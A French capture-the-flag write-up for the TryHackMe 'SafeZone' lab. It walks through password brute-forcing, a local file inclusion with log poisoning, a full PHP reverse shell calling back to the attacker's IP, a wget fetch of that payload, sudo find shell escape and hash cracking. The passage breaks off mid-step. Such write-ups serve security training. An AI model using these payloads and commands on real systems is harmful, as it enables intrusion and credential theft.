# SafeZone # 

## Task 1 Challenge flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.1.109 safezone.thm" >> /etc/hosts'
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A safezone.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 09:55 CEST
Nmap scan report for safezone.thm (10.10.1.109)
Host is up (0.066s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:6a:cd:1b:0c:69:a1:3b:6c:52:f1:22:93:e0:ad:16 (RSA)
|   256 84:f4:df:87:3a:ed:f2:d6:3f:50:39:60:13:40:1f:4c (ECDSA)
|_  256 9c:1e:af:c8:8f:03:4f:8f:40:d5:48:04:6b:43:f5:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Whoami?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/24%OT=22%CT=1%CU=38577%PV=Y%DS=2%DC=T%G=Y%TM=617511
OS:DA%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   33.15 ms 10.9.0.1
2   62.96 ms safezone.thm (10.10.1.109)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.15 seconds

```

D'arpès nmap on a 2 services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.  

   

Sur la page principale il y a pas grand chose.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://safezone.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt -q
/index.html           (Status: 200) [Size: 503]
/news.php             (Status: 302) [Size: 922] [--> index.php]
/index.php            (Status: 200) [Size: 2372]               
/register.php         (Status: 200) [Size: 2334]               
/detail.php           (Status: 302) [Size: 1103] [--> index.php]
/logout.php           (Status: 200) [Size: 54]                  
/dashboard.php        (Status: 302) [Size: 922] [--> index.php] 
/note.txt             (Status: 200) [Size: 121]          
```

On a un fichier note.txt

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://safezone.thm/note.txt
Message from admin :-

		I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```

On regarde la note:
- On remarque que le nom est : admin   
- Le mot de passe est sauvé dans le fichier pass.txt dans /home/files.    

   
   

On crée un nouveau compte.   
On se connecte.   

   
   

Dans detail.php dans le code source on trouve un commentaire qui nous dit d'utiliser le paramètre page.   
Je n'arrive à rien faire avec page.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://safezone.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -t 100 -q
/server-status        (Status: 403) [Size: 277]
/~files               (Status: 301) [Size: 313] [--> http://safezone.thm/~files/]
```

Avec gobuster on découvre un autre paramètre.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://safezone.thm/~files/pass.txt
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

On arrive à lire le fichier pass.txt, dedans on a : 
Le nom qui est Admin.   
Le mot de passe qui admin__admin avec __ qui est un nombre à 2 chiffres.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ for i in `seq -w 00 99`; do echo "admin"$i"admin";done >> pass
```

On génère tous les mots de passes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,pass -t1 -s 20 -d "username=Admin&password=FUZZ&submit=Submit" "http://safezone.thm/index.php"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
 /usr/lib/python3/dist-packages/wfuzz/ui/console/clparser.py:348: UserWarning:When using delayed requests concurrent requests are limited to 1, therefore the -s switch will be ignored.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://safezone.thm/index.php
Total requests: 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000001:   200        46 L     132 W      2430 Ch     "admin00admin"                                                                                                                                                               
000000002:   200        46 L     132 W      2430 Ch     "admin01admin"                                                                                                                                                               
000000003:   200        46 L     135 W      2428 Ch     "admin02admin"                                                                                                                                                               
000000004:   200        46 L     135 W      2428 Ch     "admin03admin"    
...
000000042:   200        46 L     135 W      2428 Ch     "admin41admin"                                                                                                                                                               
000000043:   200        46 L     135 W      2428 Ch     "admin42admin"                                                                                                                                                               
000000044:   200        46 L     135 W      2428 Ch     "admin43admin"                                                                                                                                                               
000000045:   200        49 L     129 W      2445 Ch     "admin44admin"                                                                                                                                                               
000000046:   200        46 L     132 W      2430 Ch     "admin45admin"  
...
```

On énumère tous les mots passes avec in intervalle de 20 s pour contourner la protection.   
On mot de passe admin44admin le nombre de caractères changes radicalement.   

   

On se connecte et on remarque que on peut lire le fichier /etc/passwd, il y a une faille lfi.   

 

On peut voir les logs d'apache donc on peut faire du cache poisoning.   

   

On injecte dans l'user agent une fonction pour exécuter des commandes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

On va faire un test pour voire si ça fonctionne on écoute sur notre vpn pour savoir si on reçoit un ping.   

    

On envoi notre ping.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:16:20.384875 IP safezone.thm > kali: ICMP echo request, id 1268, seq 1, length 64
19:16:20.384928 IP kali > safezone.thm: ICMP echo reply, id 1268, seq 1, length 64
19:16:21.387678 IP safezone.thm > kali: ICMP echo request, id 1268, seq 2, length 64
19:16:21.387715 IP kali > safezone.thm: ICMP echo reply, id 1268, seq 2, length 64
19:16:22.389020 IP safezone.thm > kali: ICMP echo request, id 1268, seq 3, length 64
19:16:22.389050 IP kali > safezone.thm: ICMP echo reply, id 1268, seq 3, length 64
19:16:23.391812 IP safezone.thm > kali: ICMP echo request, id 1268, seq 4, length 64
19:16:23.391847 IP kali > safezone.thm: ICMP echo reply, id 1268, seq 4, length 64
19:16:24.394142 IP safezone.thm > kali: ICMP echo request, id 1268, seq 5, length 64
19:16:24.394177 IP kali > safezone.thm: ICMP echo reply, id 1268, seq 5, length 64
```

On reçoit bien notre ping, on peut bien exécuter un reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute  le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat shell.php 

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.9.228.66';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 


tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

On fabrique un reverse shell.   
On met en place un serveur http pour récupérer le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode 'wget http://10.9.228.66:8000/shell.php -O /tmp/shell.php'
wget%20http%3A%2F%2F10.9.228.66%3A8000%2Fshell.php%20-O%20%2Ftmp%2Fshell.php
```

    

On dit à wget de récuperer shell.php de l'écrire dans tmp.   
On récupère le reverse shell.   

    

On exécute le reverse shell.  

```bash
^C
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.220.78.
Ncat: Connection from 10.10.220.78:52620.
Linux safezone 4.15.0-140-generic #144-Ubuntu SMP Fri Mar 19 14:12:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 23:48:56 up  1:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

On obtient un shell.   

```bash
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/
files
yash
$ cat /home/yash/user.txt
cat: /home/yash/user.txt: Permission denied
```

On obtient un shell dans yash il y le fichier user.txt mais on a pas l'autorisation de le lire.   

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@safezone:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find

sudo -u files /usr/bin/find . -exec /bin/sh \; -quit
$ id
id
uid=1001(files) gid=1001(files) groups=1001(files)
```

sudo est configuré pour exécuter find avec les droits de files sans mot de passe.   
On obtient un shell en disant à find de nous ouvrire un shell.   

```bash
$ cd /home/files
cd /home/files
$ ls -al
ls -al
total 40
drwxrwxrwx 5 files files 4096 Mar 29  2021  .
drwxr-xr-x 4 root  root  4096 Jan 29  2021  ..
-rw------- 1 files files    0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files files  220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files files 3771 Jan 29  2021  .bashrc
drwx------ 2 files files 4096 Jan 29  2021  .cache
drwx------ 3 files files 4096 Jan 29  2021  .gnupg
drwxrwxr-x 3 files files 4096 Jan 30  2021  .local
-rw-r--r-- 1 files files  807 Jan 29  2021  .profile
-rw-r--r-- 1 root  root   105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29  2021  pass.txt
$ cat pass.txt
cat pass.txt

$ cat .something#fake_can@be^here
cat .something#fake_can@be^here
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

On listant le répertoire files on trouve un fichier qui contient le password files sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.' > hash
tim@kali:~/Bureau/tryhackme/write-up$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magic            (?)
1g 0:00:00:00 DONE (2021-10-24 20:35) 2.000g/s 6144p/s 6144c/s 6144C/s gators..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On casse le hash avec john the ripper.   
On trouve le mot de passe qui est magic.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh files@safezone.thm
The authenticity of host 'safezone.thm (10.10.220.78)' can't be established.
ECDSA key fingerprint is SHA256:SPPh4P6UapASPDzKOK9g//1xYbr6bbWyH6fT7FwxB4U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'safezone.thm,10.10.220.78' (ECDSA) to the list of known hosts.
files@safezone.thm's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct 25 00:12:48 IST 2021

  System load:  0.08               Processes:           107
  Usage of /:   12.2% of 39.45GB   Users logged in:     0
  Memory usage: 52%                IP address for eth0: 10.10.220.78
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.


Last login: Mon Mar 29 03:44:43 2021 from 192.168.28.227
files@safezone:~$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

On se connecte avec ssh sur magic.   
On peut exécuter id avec les droits de yash mais pour ça nous sert a rien.   

```bash
files@safezone:~$ ss -ltn
State                          Recv-Q                           Send-Q                                                      Local Address:Port                                                     Peer Address:Port                          
LISTEN                         0                                128                                                         127.0.0.53%lo:53                                                            0.0.0.0:*                             
LISTEN                         0                                128                                                               0.0.0.0:22                                                            0.0.0.0:*                             
LISTEN                         0                                128                                                             127.0.0.1:8000                                                          0.0.0.0:*                             
LISTEN                         0                                80                                                              127.0.0.1:3306                                                          0.0.0.0:*                             
LISTEN                         0                                128                                                                  [::]:22                                                               [::]:*                             
LISTEN                         0                                128                                                                     *:80                                                                  *:*     
```

On voit que sur le local host il y a des ports ouverts.  

```bash
files@safezone:~$ curl http://127.0.0.1:8000
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

J'ai pas la permission pour aller voir le site.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh -L 1337:127.0.0.1:8000 files@safezone.thm
```

On établie un port forwarding.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://127.0.0.1:1337/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt -t 100 -q
/login.html           (Status: 200) [Size: 462]
/pentest.php          (Status: 200) [Size: 195]
```

On trouve deux fichiers qui sont login.html et pentest.php.   
Regardons pentest.php.   



On test une commande ping pour voir si il communique sur notre machine.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo tcpdump -i tun0 icmp
[sudo] Mot de passe de tim : 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:07:32.413328 IP safezone.thm > kali: ICMP echo request, id 2325, seq 1, length 64
21:07:32.413369 IP kali > safezone.thm: ICMP echo reply, id 2325, seq 1, length 64
21:07:33.415648 IP safezone.thm > kali: ICMP echo request, id 2325, seq 2, length 64
21:07:33.415684 IP kali > safezone.thm: ICMP echo reply, id 2325, seq 2, length 64
21:07:34.417466 IP safezone.thm > kali: ICMP echo request, id 2325, seq 3, length 64
21:07:34.417558 IP kali > safezone.thm: ICMP echo reply, id 2325, seq 3, length 64
